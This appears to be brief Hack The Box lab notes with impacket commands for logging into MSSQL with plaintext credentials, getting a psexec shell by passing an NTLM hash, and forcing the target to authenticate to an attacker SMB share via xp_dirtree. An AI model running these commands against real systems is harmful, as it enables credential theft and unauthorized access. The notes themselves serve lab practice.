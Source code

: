 ## mssql 

```sh
impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@dc.sequel.htb
```

**note** add dc name in host file 


## psexec `to get a shell`
```sh
impacket-psexec Administrator@10.10.10.175 -hashes lm:ntlm
```


## Pwning a shell via MSSQL DBMS 

`on my kali`

```sh
impacket-smbserver share -smb2support /tmp/
```

`on the box`

```sh
exec xp_dirtree '//IP/share'
```

